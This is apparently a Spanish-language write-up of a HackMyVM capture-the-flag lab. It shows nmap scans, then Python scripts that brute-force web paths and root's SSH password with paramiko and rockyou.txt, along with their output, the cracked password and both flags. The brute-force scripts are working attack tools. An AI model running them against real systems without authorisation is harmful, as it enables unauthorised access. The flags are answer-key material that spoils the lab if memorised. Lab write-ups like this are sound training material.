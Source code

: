 ##Buscamos puertos tcp activos.

sudo nmap -sS -sV -O -p- 192.168.56.102 -oN tcp                                                                                                               
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:24 -05
Nmap scan report for 192.168.56.102
Host is up (0.00075s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
80/tcp open  http    nginx
MAC Address: 08:00:27:E5:E3:8F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop


##Buscamos puertos Udp activos

sudo nmap -sUV -T4 -F --version-intensity 0 192.168.56.102 -oN udp                                                                                  
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:27 -05
Nmap scan report for 192.168.56.102
Host is up (0.00067s latency).
All 100 scanned ports on 192.168.56.102 are in ignored states.
Not shown: 59 open|filtered udp ports (no-response), 41 closed udp ports (port-unreach)
MAC Address: 08:00:27:E5:E3:8F (Oracle VirtualBox virtual NIC)


Tenemos los puertos 22 y 80 activos.

##Usamos Curl...
curl -v http://192.168.56.

* Trying 192.168.56.102:80...
* Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.56.102
> User-Agent: curl/7.86.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx
< Date: Mon, 05 Dec 2022 20:30:15 GMT
< Content-Type: text/html
< Content-Length: 57
< Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
< Connection: keep-alive
< ETag: "5f678373-39"
< Accept-Ranges: bytes
< 

Dont Overthink. Really, Its simple.
        <!-- Trust me -->

El Html nos dice poco excepto que no sobre-pensemos la solución.

##Buscamos directorios mediante fuerza bruta con Python y requests.

```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        url = ip + string[:-1]
        if "#" in url:
            continue
        response = requests.get(url)
        if response.status_code == 200:
            print(f'[+] {url}  status-code [{response.status_code}]')
```
###Salida:
[+] http://192.168.56.102/  status-code [200]

No encontramos ningún directorio sospechoso y procedemos a buscar archivos mediante el uso de la misma tecnica.
```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        list = ['.html', '.txt', '.php', '.bak', '.jpeg', '.zip', '.sql'] # Extensiones que buscara.
        for item in list:
            url = ip + string[:-1] + item
            if "#" in url:
                continue
            response = requests.get(url)
            if response.status_code == 200:
                print(f'[+] {url}  status-code [{response.status_code}]')
```
###Salida:
[+] http://192.168.56.102/index.html  status-code [200]

Solo encontramos un archivo.


Pasamos a revisar SSH tratando de conectar como 'root' usando paramiko y rockyou.txt
```python
import paramiko

server = '192.168.56.102'
username = 'root'
file = '/home/../../rockyou.txt'

with open(file, 'r') as payloads:
    for payload in payloads:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(server, username=username, password=payload[:-1])
            print(f'[+] {username}: {payload}')
            ssh.close()
            break
        except paramiko.ssh_exception.AuthenticationException as err:
            print(f'[-] {username}: {payload[:-1]}')
            ssh.close()
```
###Salida:
.
.
.
.
[-] root: fernanda
[-] root: westlife
[-] root: blondie
[-] root: sasuke
[-] root: smiley
[-] root: jackson
[+] root: simple

##El password es 'simple' para el usuario 'root'

>id:uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video) 
>Flag user:HMV665sXzDS
>Flag root:HMVtyr543FG
